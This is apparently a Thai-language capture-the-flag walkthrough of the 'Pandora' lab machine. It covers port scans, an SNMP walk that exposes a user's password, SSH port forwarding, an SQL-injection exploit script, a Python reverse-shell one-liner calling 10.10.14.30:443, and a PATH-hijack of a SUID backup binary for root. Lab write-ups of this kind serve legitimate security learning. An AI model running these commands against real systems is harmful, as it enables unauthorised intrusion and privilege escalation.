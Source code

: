 
# Recon 

## TCP Scan 

```bash
./scan.sh 10.10.11.136
[*] Running rustscan...
[*] Running nmap on ports: 22,80
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 21:29 +07
Nmap scan report for 10.10.11.136 (10.10.11.136)
Host is up (0.033s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 24:c2:95:a5:c3:0b:3f:f3:17:3c:68:d7:af:2b:53:38 (RSA)
|   256 b1:41:77:99:46:9a:6c:5d:d2:98:2f:c0:32:9a:ce:03 (ECDSA)
|_  256 e7:36:43:3b:a9:47:8a:19:01:58:b2:bc:89:f6:51:08 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Play | Landing
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.68 seconds
                                                                           
```


## UDP Scan 

```bash
sudo nmap -sU -top-ports=100 10.10.11.136
Starting Nmap 7.95 ( https://nmap.org ) at 2025-05-17 21:47 +07
Nmap scan report for panda.htb (10.10.11.136)
Host is up (0.033s latency).
Not shown: 59 closed udp ports (port-unreach), 40 open|filtered udp ports (no-response)
PORT    STATE SERVICE
161/udp open  snmp

Nmap done: 1 IP address (1 host up) scanned in 56.56 seconds

```

## HTTP 80 

![](./IMG/001.png)

ซึ่งหลังจากลองทดสอบ Fuzzing ไปแล้วก็ไม่พบอะไรที่น่าสนใจ 

## SNMP UDP 161 

ติดตั้ง snmpwalk 
```bash 
sudo apt update 
sudo apt install snmp snmp-mibs-downloader

snmpwalk -v 2c -c public 10.10.11.136 | tee snmp-full
```

ไม่นานเราก็เจอข้อมูลของ user: daniel:HotelBabylon23  
![](./IMG/002.png)

## Shell as daniel 

จากนั้นลองทดสอบ ssh จะพบว่าสามารถเข้าถึง daniel ได้ด้วยข้อมูลที่ได้ daniel:HotelBabylon23   
![](./IMG/003.png)

## Host Enum 

หากตรวจสอบไปในไฟล์ของ Apache2 จะพบว่ามีการ setup virtual host ชื่อ pandora.panda.htb ไว้ที่ localhost พอร์ต 80 ซึ่งไม่สามารถเข้าได้จากภายนอก 

```xml
daniel@pandora:/etc/apache2/sites-available$ cat pandora.conf 
<VirtualHost localhost:80>
  ServerAdmin admin@panda.htb
  ServerName pandora.panda.htb
  DocumentRoot /var/www/pandora
  AssignUserID matt matt
  <Directory /var/www/pandora>
    AllowOverride All
  </Directory>
  ErrorLog /var/log/apache2/error.log
  CustomLog /var/log/apache2/access.log combined
</VirtualHost>

```

เพื่อให้เราสามารถเข้าถึงได้เราจำเป็นต้องมีการ ทำ Local port forwarding localhost:80 > kali:10001  

```bash
ssh -N -L 0.0.0.0:10001:localhost:80 daniel@panda.htb # on Kali host 
```

![](./IMG/004.png)

จากข้อมูลของเป้าหมายจะพบว่าเว็ยไซต์ดังกล่าวมีการใช้งานเวอร์ชัน v7.0NG.742_FIX_PERL2020

![](./IMG/005.png)

ทั้งนี้ช่องโหว่ดังกล่าวจำเป็นต้องใช้ Authentication ซึ่งจากการทดสอบใช้ Daniel ก็ไม่สามารถเข้าใช้งานได้ ทำให้ Exploit ดังกล่าวไม่สามารถใช้ได้ 

![](./IMG/006.png)


## Exploit Pandora v7
```python
python3 sqlpwn.py -t 'pandora.panda.htb:10001' -f 'shell.php'
```

![](./IMG/007.png)

## Shell as matt

ใช้ Reverse shell ด้วย python shoryest
```python
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.10.14.30",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```

![](./IMG/008.png)

![](./IMG/009.png)

```python 
python3 -c 'import pty;pty.spawn("/bin/bash_")'
```

## Shell as ROOT

```bash
find / -perm -4000 -ls 2>/dev/null
```

![](./IMG/010.png)


จากนั้นให้สร้าง public กับ private key สำหรับเข้าไปยังเครื่องด้วยสิทธิของ matt ทั้งนี้เพื่อแก้ปัญหาการรัน sudo -l ไม่ได้ นั่นเอง 

```bash
echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGmmwxN+kle9JpChMyjN0GqoqZ7mm+hr1AZNpkhgrNkI administrator@windows" > authorized_keys 

sudo ssh -i private_key matt@10.10.11.136
```

# Privilege Escalation

```bash
matt@pandora:~$ ltrace pandora_backup
getuid()                                                                = 1000
geteuid()                                                               = 1000
setreuid(1000, 1000)                                                    = 0
puts("PandoraFMS Backup Utility"PandoraFMS Backup Utility
)                                       = 26
puts("Now attempting to backup Pandora"...Now attempting to backup PandoraFMS client
)                             = 43
system("tar -cvf /root/.backup/pandora-b"...tar: /root/.backup/pandora-backup.tar.gz: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                  = 512
puts("Backup failed!\nCheck your permis"...Backup failed!
Check your permissions!
)                            = 39
+++ exited (status 1) +++

```


หาเราใช้ ltrace  เราจะพบว่ามีการเรียกใช้ tar สำหรับนำไฟล์ backup ไปใส่ใน /root ฉะนั้นเราจะสร้างโปรแกรม tar ใหม่ โดยให้ระบุ PATH ไปที่ /dev/shm 

```bash
matt@pandora:~$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
matt@pandora:~$ export PATH=/dev/shm:$PATH
matt@pandora:~$ echo $PATH
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

cd /dev/shm
vim tar
```

เนื้อหาของ tar 
```sh
#!/bin/bash

bash
```

จากนั้นเปลี่ยนสิทธิให้สามารถรันได้

```bash
chmod +x tar 
# รันคำสั่งอีกครั้งก็จะได้ ROOT กลับมา
pandora_backup 
```

![](./IMG/011.png)
# PWNED 